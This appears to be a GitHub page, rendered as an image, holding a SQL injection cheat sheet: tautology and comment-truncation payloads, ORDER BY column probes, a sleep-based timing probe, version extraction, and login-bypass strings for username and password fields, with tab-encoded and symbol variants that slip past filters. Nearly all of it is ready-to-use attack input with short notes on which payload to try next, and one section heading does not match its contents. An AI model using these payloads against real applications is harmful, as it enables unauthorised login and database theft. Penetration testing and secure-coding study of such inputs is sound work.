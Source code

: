 ```
(SELECT 'inputword’)

’ OR 1=1 -- 
OR 'a’=’a’-- 
1 OR 'a’=’a’--

If the first payload below returns a successful response and the second payload returns a false response, jump to the union select section.
' ORDER BY 1 --
' ORDER BY 25 --

### OR Sandwich Section
' OR 1=1 OR '
' OR sleep(5) OR '
'||(SELECT version())||'

### UNION SELECT Section
OR (1=1
1) OR (1=1
’) OR 1=1

```

## SQL Injection on Login Pages
**Username Field:**
```
'
''

admin' AND 1=1-- (may need different comment or space at end of comment)
admin'--
admin')--
admin' or 1=1--
admin') or 1=1-- -

If multiple accounts are being returned, we can use the following:
admin' or 1=1 limit 1 --

If spaces are not allowed, we can use  which needs to be encoded in our situation:
admin'%09OR%091=1%09--%09

If tabs and spaces are blocked:
admin'||1=1#
admin'||1#
```

**Password Field:**
```
'
''
' or 1=1#
' or 1=1--
') or 1=1#
') or 1=1-- -
```
